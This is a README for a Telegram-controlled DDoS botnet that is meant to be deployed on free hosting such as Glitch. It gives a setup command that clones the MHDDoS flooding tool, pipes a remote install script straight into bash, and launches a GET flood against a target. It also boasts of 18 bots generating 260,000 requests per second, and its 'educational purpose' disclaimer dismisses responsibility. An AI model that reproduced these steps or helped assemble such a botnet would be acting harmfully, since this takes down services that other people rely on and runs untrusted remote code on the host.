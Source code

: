# DDOS Botnet Sample

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! (I use [GLITCH](https://glitch.com/dashboard) for simple and free host)
<br><br>
## How use it ?

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.
<br><br>
In the shell of your hosting server make this config command : 
<br>
` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET example.com 1 100 mhddos_proxy/list 100 5 `
<br>
Now hit the URL of the bot for start (only if your hosting sleep your project in free mode like Glitch), you can also make a bot for start all other bot. 


The installation tutorial is not finished, if you have any problems I can help you.


**In my Botnet I have actually 18 bots, I can go up to 260 000 requests /s**
<br><br>

### Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.
